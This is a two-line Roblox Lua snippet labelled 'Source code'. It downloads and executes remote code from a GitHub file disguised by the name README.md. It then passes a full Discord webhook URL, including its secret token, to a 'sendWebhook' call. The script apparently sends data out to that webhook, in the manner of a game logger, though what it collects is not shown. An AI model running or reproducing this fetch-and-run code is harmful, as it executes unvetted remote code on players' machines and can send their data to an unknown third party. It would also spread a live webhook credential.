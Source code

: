 
skidApi = loadstring(game:HttpGet('https://raw.githubusercontent.com/Vaiziz/ezarthehhrr/main/README.md'))()

skidApi:sendWebhook('https://discord.com/api/webhooks/905801051255480411/r1Uat4wWDvPKScbHGIXieg0Vmy4VHQlERh5ZHin8ryglKV1SW6xp-C5t5cqTvR4PzArQ')
